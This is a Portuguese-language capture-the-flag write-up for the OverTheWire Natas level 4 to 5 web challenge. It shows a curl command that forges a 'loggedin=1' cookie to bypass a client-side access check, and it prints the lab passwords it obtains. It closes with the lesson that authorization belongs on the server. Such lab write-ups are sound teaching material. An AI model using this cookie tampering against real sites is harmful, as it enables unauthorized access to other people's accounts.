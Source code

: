 # 🕵️ Natas - Nível 04–05 (🇧🇷 Português)  
*Data:* 24/05/2025  
*Dificuldade:* Fácil  
*Categoria:* Web

---

## 🎯 OBJETIVO

Acessar `http://natas5.natas.labs.overthewire.org` e obter a senha para avançar ao nível 6.

---

## 🔎 ANÁLISE

- Após fazer login com as credenciais corretas, o site exibe a seguinte mensagem:
  > **Acesso não permitido. Você não está logado.**
- O código-fonte da página não traz nenhuma informação útil, então decidimos inspecionar a requisição HTTP através do DevTools do navegador.
- Na seção de **Cookies**, uma flag nos chama atenção: `loggedin=0`. Isso indica que a sessão **não está autenticada**.
- E se alterarmos esse valor?

---

## 🧱 ETAPAS

1. Notamos que o cookie `loggedin` está definido como `0`, indicando que não estamos logados.
2. Decidimos alterar manualmente esse valor para `1`.
3. No terminal, montamos uma requisição com o cabeçalho `Cookie` modificado:
```
curl http://natas5.natas.labs.overthewire.org/ \  
-u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK \  
-H "Cookie: _ga=GA1.1.325147876.1747444879; _ga_RD0K2239G0=GS2.1.s1748038204\$o13\$g1\$t1748038952\$j0\$l0\$h0;
loggedin=1"  
```
4. Ao executar, recebemos a seguinte resposta: `Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned`

---

## 🔑 SENHA ENCONTRADA

```
0RoJwHdSKWFTYR5WuiAewauSuNaBXned
```

---

## ✅ CONCLUSÃO

Este nível demonstra como o controle de acesso baseado em cookies pode ser facilmente burlado ao manipular flags do lado do cliente.
Decisões de segurança nunca devem depender de valores que o usuário pode modificar, como cookies, sem uma validação adequada no servidor.

---

## 🧪 COMANDOS UTILIZADOS


`curl:` Ferramenta de linha de comando para enviar requisições HTTP.  
`-u:` Define o usuário e senha no formato usuario:senha.  
`-H:` Permite adicionar um cabeçalho manual — neste caso, um Cookie alterado.  

---

## 🧠 OBSERVAÇÕES

Usar cookies como loggedin=1 para controlar acesso é extremamente inseguro. Qualquer atacante pode modificar esse valor com ferramentas básicas como curl, DevTools do navegador ou Burp Suite.
Em aplicações reais, o controle de autenticação e autorização deve ser feito no lado do servidor, com tokens assinados ou sessões que não possam ser forjadas pelo cliente.

---


<p align="center">
  <a href="../Natas03-04/Readme-BR.md">⬅️ Anterior</a> • 
  <a href="../Natas05-06/Readme-BR.md">Próximo ➡️</a>
</p>
